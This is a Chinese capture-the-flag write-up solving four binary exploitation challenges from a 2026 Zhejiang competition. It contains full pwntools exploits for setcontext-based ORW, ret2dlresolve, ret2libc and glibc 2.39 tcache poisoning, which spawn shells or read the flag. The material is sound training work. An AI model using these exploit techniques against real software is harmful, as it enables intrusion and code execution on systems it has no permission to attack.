# 26浙江省初赛PWN全解

## PWN1 ledger

### 流程分析

有prctl函数 禁用了execve,那我们就不能直接system("/bin/sh")了



store函数



向0x404028这里的数组写入数据,只检查要小于7,没检查负数,可以实现反向任意地址写

inspect函数



输出函数,也是只检查小于7,那就可以泄露llibc地址了,数组每一个8字节, 输入-1就直接可以命中puts的libc

print_message函数



漏洞核心函数,先向0x404068写入最多0x300个直接,在调用book函数把写入的东西当参数

### 解题思路

题目逻辑比较简单,-1可以直接拿到libc,并且再往上不远就是库函数的got表位置

明显我们可以控制book这个地方,换成我们想要的函数,但是这个book函数只允许传一个参数,所以不能直接ORW

但是存在一个c函数可以帮助我们,就是**setcontext**函数

#### setcontext函数

1. 这个函数只需要一个参数就是一个结构体指针,函数作用就是通过结构体恢复寄存器状态和程序上下文,这和SROP很像,只不过这是标准库函数

2. 结构体具体内容不在赘述,几个比较重要的偏移是**0xa0**处的**RSP**,**0xA8**处的**RIP**,以及**0xE0**处的一个浮点数计算相关的指针,这个指针不能为0,否则会出错

知道这个函数后,我们的思路就清晰了,print_message函数专门给了我们一段地方伪造结构体,那么我们直接伪造一段ORW的rop链,然后控制rip和rsp直接执行我们的链子即可

### 完整exp

```
from pwn import *
context.clear(arch="amd64", os="linux", log_level="info")

elf = ELF("./pwn")
libc = ELF("./libc.so.6", checksec=False)
io = process("./pwn")

io.sendlineafter(b"choice: ", b"2")
io.sendlineafter(b"index: ", b"-1")
io.recvuntil(b"value: 0x")
puts_leak = int(io.recvline().strip(), 16)
libc.address = puts_leak - libc.sym.puts
log.info("libc base: %#x", libc.address)

pop_rax = libc.address + 0x45eb0
pop_rdi = libc.address + 0x2a3e5
pop_rsi = libc.address + 0x2be51
pop_rdx = libc.address + 0x11f437
syscall_ret = libc.address + 0x912d6

path_addr = 0x404068 + 0x180
output_addr = 0x404068 + 0x300

chain = flat(
    path_addr,
    pop_rsi, 0,
    pop_rax, 2, syscall_ret,
                                # open
    pop_rdi, 3,
    pop_rsi, output_addr,
    pop_rdx, 0x20, 0,                 
    pop_rax, 0, syscall_ret,
                                # read
    pop_rdi, 1,
    pop_rsi, output_addr,
    pop_rdx, 0x20, 0,
    pop_rax, 1, syscall_ret,
                                # write
    pop_rdi, 0,
    pop_rax, 60, syscall_ret,   # exit(0)
)

payload = bytearray(0x300)
payload[0x180:0x180 + len(b"./flag\x00")] = b"./flag\x00"
payload[0x200:0x200 + len(chain)] = chain
payload[0xA0:0xA8] = p64(0x404068 + 0x200)  # ucontext RSP
payload[0xA8:0xB0] = p64(pop_rdi)
#payload[0xA8:0xB0] = p64(0x404068 + 0x200)                # ucontext RIP
payload[0xE0:0xE8] = p64(0x404068 + 0x1D0)         # valid fpregs area
#payload[0x1C0:0x1C4] = p32(0x1F80)               # MXCSR
#payload[0x1D0:0x1D2] = p16(0x037F)              # x87 control word
#payload[0x1D4:0x1D6] = p16(0xFFFF)              # x87 tag word

io.sendlineafter(b"choice: ", b"1")
io.sendlineafter(b"index: ", b"-1")
io.sendlineafter(b"value (hex): ", hex(libc.sym.setcontext).encode())
io.recvuntil(b"saved\n")

io.sendlineafter(b"choice: ", b"3")
io.sendlineafter(b"length: ", str(len(payload)).encode())
io.recvuntil(b"message: ")
io.send(payload)

output = io.recvall(timeout=3)
print(output)
```

### exp解释

payload里面记得提前把flag路径的ascll码写进来

payload最后注释的3行是一些涉及浮点计算的具体参数,伪造的时候可以默认带着这几个参数


## PWN2 echo_rop

### 流程分析



首先给了我们一块memo,有0x2000的空间自由写

下面read的0x88字节可以溢出到ret后在多8字节

还调用了shutdown(0, 0) 这个函数会把远程交互的标准输入ban掉了,这就把我们的rop的思路直接堵死了,只给我们一次全面一次机会读入

### 解题思路

#### ret2dlresolve原理

简单讲一下,就是延迟绑定机制的起点是plt表的一个push的参数**reloc_arg**,然后会根据这个参数在内存里找到一些结构体然后一层层解析,就能解析到libc,最终回写到got表并执行,我们可以手动调用延迟绑定函数,然后传入我们想要的参数,顺便在伪造结构体,就能最终链接到我们想要的函数,然后就能直接执行

最后的read由于后面的溢出空间自由0x10,所以肯定要栈迁移了,那我们就把rop和伪造的结构体一起写在memo就可以了

### 完整exp

```
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'debug'

elf = ELF('./pwn', checksec=False)
io = process('./pwn')
#io = remote('1.14.76.59',32214)
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(
    elf,
    symbol='system',
    args=['cat flag'],
    data_addr=0x404680
)
assert b'\n' not in dlresolve.payload, \
    "伪造数据中包含换行\n gets 无法一次性接收"

#rop.raw(0x40101a)
rop.ret2dlresolve(dlresolve)
# ret
print(rop.dump())
io.recvuntil(b'memo: ')

payload = b"a"*0x600 + dlresolve.payload
payload = payload.ljust(0x1908, b'\x00')
payload += rop.chain()
payload = payload.ljust(0x1fff,b'\x00')
io.sendline(payload)

io.recvuntil(b'message: ')

io.sendline(b'a'*0x70+p64(0x405980)+p64(0x4012c6))

io.interactive()
```

### exp解释

现在的4.0+的pwntools库,已经集成了这个伪造结构体的功能,不在需要我们手动调整伪造好几个结构体,还可以自动生成调用延迟绑定函数的rop链子

我们最终把结构体写在**0x404680**处,生成的rop链子放在**0x405988**处,这两个地址是可以自定义的最终就能直接cat flag了


## PWN3 basic_pwn

### 流程分析



就这一个input函数,每次向v2写入一个字节,没有限制写入总长度,栈溢出是肯定有了,因为题目给了libc文件,所以肯定是优先尝试ret2libc




题目唯一的坑在于循环控制变量i存储在栈上的**-0x4**的位置,我们不能随便拿垃圾数据覆盖这里,否则下一次向v2[i]写入的位置就乱了,就写不到ret了,我的思路是直接**在-0x4写进0x47**,这样这轮循环结束在+1,下次的写入位置直接就是0x48,也就是ret的地址,然后就是常规的ret2libc模版

### 完整exp

```
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'debug'

elf = ELF('./pwn')
libc = ELF('./libc.so.6')
p = process('./pwn')
#p = remote('1.14.76.59',23386)
gdb.attach(p)
putsplt = elf.plt['puts']
putsgot = elf.got['puts']
main_addr = elf.sym['main']
rdi_addr = 0x40117a 
ret_addr = 0x40101a
payload1 = b'b' * 0x3c +p8(0x47) + p64(rdi_addr) + p64(putsgot) + p64(putsplt) + p64(main_addr) 
p.recvuntil(b'Welcome to the 2026 ZJ University Student Cybersecurity Competition!\n')
pause()

p.sendline(payload1)
p.recvuntil(b'received\n')
puts_addr = u64(p.recvn(6).ljust(8,b'\x00'))
print(hex(puts_addr))

base = puts_addr - libc.sym['puts']
print(hex(base))
system_addr = base + libc.sym['system']
binsh_addr = base + next(libc.search(b'/bin/sh'))

payload2 = b'b' * 0x3c +p8(0x47) + p64(ret_addr) + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr) 
p.sendline(payload2)

p.interactive()
```

## PWN4 baby_heap_3

一道标准UAF的2.39版本堆题目

### 流程分析

#### create函数



常见的创建堆块流程,card[1]存放堆块指针,info数组存放size大小 40E8处数组存放一个是否在启用的标志位

#### revise函数



也是常规的写入堆块内容函数,大小也没有溢出,但是没有检查40E8处的标志位,所以free后也能修改

#### inspect函数



也没啥好说的,输出堆块内容,没有风险,同样没有检查40E8处的标志位, 可以泄露bin指针了

#### discard函数



核心漏洞函数,有UAF,标志位归零了,但是前面修改和输出都没检查,就相当于禁止了double free

### 逻辑分析

本体的libc版本为2.39 tachebin的指针已经加密,需要解密稍微麻烦一点,并且没有了hook钩子,我的解法是用**envion直接劫持到栈**,然后最终**劫持main函数**的返回地址,实现system("/bin/sh"),IO的一些方法,比如apple2应该也可以

### 完整exp

```
from pwn import *
elf = ELF("./pwn", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
io = process("./pwn")
context.arch = "amd64"

def create(index, size):
    io.recvuntil(b"choice: ")
    io.sendline(b"1")
    io.recvuntil(b"index: ")
    io.sendline(str(index).encode())
    io.recvuntil(b"size: ")
    io.sendline(str(size).encode())


def free(index):
    io.recvuntil(b"choice: ")
    io.sendline(b"4")
    io.recvuntil(b"index: ")
    io.sendline(str(index).encode())


def puts(index):
    io.recvuntil(b"choice: ")
    io.sendline(b"3")
    io.recvuntil(b"index: ")
    io.sendline(str(index).encode())
    io.recvuntil(b"data: ")
    data = io.recvn(0x10)
    io.recvn(1)
    return data


def edit(index, data):
    io.recvuntil(b"choice: ")
    io.sendline(b"2")
    io.recvuntil(b"index: ")
    io.sendline(str(index).encode())
    io.recvuntil(b"length: ")
    io.sendline(str(len(data)).encode())
    io.sendafter(b"data: ", data)

#gdb.attach(io)
create(0, 0x500)
create(1, 0x10) #防止chunk0和unsorted bin合并

free(0)
libc.address = u64(puts(0)[0:6].ljust(8, b"\x00")) - 0x740e42125ce0 +  0x740e41f0b000
log.info("leak: %s", hex(libc.address))

create(2, 0x10) 
create(3, 0x10)
free(2)
chunk_addr = u64(puts(2)[0:6].ljust(8, b"\x00"))
chunk_addr = (chunk_addr << 12) + 0x290
log.info("chunk_addr: %s", hex(chunk_addr))

free(3)
edit(3, p64(libc.sym.environ ^ ((chunk_addr + 0x30) >> 12)))
create(5, 0x10)
create(6, 0x10)
environ = u64(puts(6)[0:6].ljust(8, b"\x00"))
log.info("environ: %s", hex(environ))
#pause()
create(7, 0x50)
create(8, 0x50)
free(7)
free(8)

edit(8, p64((environ - 0x128) ^ ((chunk_addr + 0xa0) >> 12)))
create(9, 0x50)
create(10, 0x50)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]
bin_sh = next(libc.search(b"/bin/sh\x00"))
payload = flat(
    0,
    pop_rdi,
    bin_sh,
    ret,
    libc.sym.system,
    libc.sym.exit,
)
#gdb.attach(io)
edit(10, payload)
io.recvuntil(b"choice: ")
io.sendline(b"5")
io.interactive()
```

### exp解释

1. 前面常规的unsortedbin泄露libc,申请一个0x500的堆块就行

2. 然后就是由于指针加密,我们需要先泄露一个堆地址,这里释放了chunk2,此时只有他自己一个在tachebin,所以理论上的fd应该为空,就能直接反向解密出堆地址了,在+0x290,就得了我们第一个申请堆块的地址(这里也可以直接就用解密好的堆地址,那个地址是4KB页对齐的,反正后面涉及到这个堆地址的使用都还需要调试确定偏移)

3. 然后就是常规的tachebin修改next指针,把environ写进去,但是记得加密好,那里的**chunk_addr + 0x30**需要调试一下,随后就连环申请到栈上就能泄露栈地址了

4. 在然后就是通过调试,确定一个ret地址的位置,我这里选择的是main函数的最后的ret,只需要随便找一个main函数的位置下断点,然后找一下rsp和ret地址的位置就行,然后就能调试出**environ - 0x128**这个地址,这里是以rbp为起点,所以rop最前面有个0占位rbp(如果直接申请到ret开始改,会崩溃,可能是堆头把栈损坏了吧)

5. 同时还需要调试出此时这个堆块8的**chunk_addr + 0xa0**这个地址,只需要在free(8)后直接pause(),然后看一下bins就可以了
6. 然后就是常规的system("/bin/sh")链子,最后覆盖到栈上就可以,最后别忘了在进入选项5,选项5是main函数正式返回的入口